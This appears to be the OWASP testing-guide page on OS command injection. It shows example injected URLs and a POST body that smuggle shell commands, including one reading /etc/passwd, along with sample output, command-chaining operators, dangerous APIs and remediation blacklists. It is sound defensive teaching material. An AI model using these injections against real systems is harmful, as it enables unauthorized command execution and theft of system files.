 # Testing for Command Injection

|ID          |
|------------|
|WSTG-INPV-12|

## Summary

This article describes how to test an application for OS command injection. The tester will try to inject an OS command through an HTTP request to the application.

OS command injection is a technique used via a web interface in order to execute OS commands on a web server. The user supplies operating system commands through a web interface in order to execute OS commands. Any web interface that is not properly sanitized is subject to this exploit. With the ability to execute OS commands, the user can upload malicious programs or even obtain passwords. OS command injection is preventable when security is emphasized during the design and development of applications.

## How to Test

When viewing a file in a web application, the file name is often shown in the URL. Perl allows piping data from a process into an open statement. The user can simply append the Pipe symbol `|` onto the end of the file name.

Example URL before alteration:

`http://sensitive/cgi-bin/userData.pl?doc=user1.txt`

Example URL modified:

`http://sensitive/cgi-bin/userData.pl?doc=/bin/ls|`

This will execute the command `/bin/ls`.

Appending a semicolon to the end of a URL for a .PHP page followed by an operating system command, will execute the command. `%3B` is URL encoded and decodes to semicolon

Example:

`http://sensitive/something.php?dir=%3Bcat%20/etc/passwd`

### Example

Consider the case of an application that contains a set of documents that you can browse from the Internet. If you fire up a personal proxy (such as ZAP or Burp Suite), you can obtain a POST HTTP like the following:

```txt
POST http://www.example.com/public/doc HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; it; rv:1.8.1) Gecko/20061010 FireFox/2.0
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
Accept-Language: it-it,it;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Keep-Alive: 300
Proxy-Connection: keep-alive
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf
```

In this post request, we notice how the application retrieves the public documentation. Now we can test if it is possible to add an operating system command to inject in the POST HTTP. Try the following:

```txt
POST http://www.example.com/public/doc HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; it; rv:1.8.1) Gecko/20061010 FireFox/2.0
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
Accept-Language: it-it,it;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Keep-Alive: 300
Proxy-Connection: keep-alive
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf+|+Dir c:\
```

If the application doesn't validate the request, we can obtain the following result:

```txt
    Exec Results for 'cmd.exe /c type "C:\httpd\public\doc\"Doc=Doc1.pdf+|+Dir c:\'
    Output...
    Il volume nell'unità C non ha etichetta.
    Numero di serie Del volume: 8E3F-4B61
    Directory of c:\
     18/10/2006 00:27 2,675 Dir_Prog.txt
     18/10/2006 00:28 3,887 Dir_ProgFile.txt
     16/11/2006 10:43
        Doc
        11/11/2006 17:25
           Documents and Settings
           25/10/2006 03:11
              I386
              14/11/2006 18:51
             h4ck3r
             30/09/2005 21:40 25,934
            OWASP1.JPG
            03/11/2006 18:29
                Prog
                18/11/2006 11:20
                    Program Files
                    16/11/2006 21:12
                        Software
                        24/10/2006 18:25
                            Setup
                            24/10/2006 23:37
                                Technologies
                                18/11/2006 11:14
                                3 File 32,496 byte
                                13 Directory 6,921,269,248 byte disponibili
                                Return code: 0
```

In this case, we have successfully performed an OS injection attack.

## Special Characters for Comand Injection

The following special character can be used for command injection such as `|` `;` `&` `$` `>` `<` `'` `!`

- `cmd1|cmd2` : Uses of `|` will make command 2 to be executed weather command 1 execution is successful or not.
- `cmd1;cmd2` : Uses of `;` will make command 2 to be executed weather command 1 execution is successful or not.
- `cmd1||cmd2` : Command 2 will only be executed if command 1 execution fails.
- `cmd1&&cmd2` : Command 2 will only be executed if command 1 execution succeeds.
- `$(cmd)` : For example, `echo $(whoami)` or `$(touch test.sh; echo 'ls' > test.sh)`
- `cmd` : It's used to execute specific command. For example, `whoami`
- `>(cmd)`: `>(ls)`
- `<(cmd)`: `<(ls)`

## Code Review Dangerous API

Be aware of the uses of following API as it may introduce the command injection risks.

### Java

- `Runtime.exec()`

### C/C++

- `system`
- `exec`
- `ShellExecute`

### Python

- `exec`
- `eval`
- `os.system`
- `os.popen`
- `subprocess.popen`
- `subprocess.call`

### PHP

- `system`
- `shell_exec`
- `exec`
- `proc_open`
- `eval`

### Remediation

#### Sanitization

The URL and form data needs to be sanitized for invalid characters. A blacklist of characters is an option but it may be difficult to think of all of the characters to validate against. Also there may be some that were not discovered as of yet. A whitelist containing only allowable characters or command list should be created to validate the user input. Characters that were missed, as well as undiscovered threats, should be eliminated by this list.

General blacklist to be included for command injection can be `|` `;` `&` `$` `>` `<` `'` `\` `!` `>>` `#`

Escape or filter special characters for windows,   `(` `)` `<` `>` `&` `*` `‘` `|` `=` `?` `;` `[` `]` `^` `~` `!` `.` `”` `%` `@` `/` `\` `:` `+` `,`  ``` ` ```
Escape or filter special characters for Linux, `{` `}` `(` `)` `>` `<` `&` `*` `‘` `|` `=` `?` `;` `[` `]` `$` `–` `#` `~` `!` `.` `”` `%`  `/` `\` `:` `+` `,` ``` ` ```

### Permissions

The web application and its components should be running under strict permissions that do not allow operating system command execution. Try to verify all this information to test from a gray-box testing point of view.

## Tools

- OWASP [WebGoat](https://owasp.org/www-project-webgoat/)
- [Commix](https://github.com/commixproject/commix)

## References

- [Penetration Testing for Web Applications (Part Two)](https://www.symantec.com/connect/articles/penetration-testing-web-applications-part-two)
- [OS Commanding](http://projects.webappsec.org/w/page/13246950/OS%20Commanding)
- [CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')](https://cwe.mitre.org/data/definitions/78.html)
- [ENV33-C. Do not call system()](https://www.securecoding.cert.org/confluence/pages/viewpage.action?pageId=2130132)
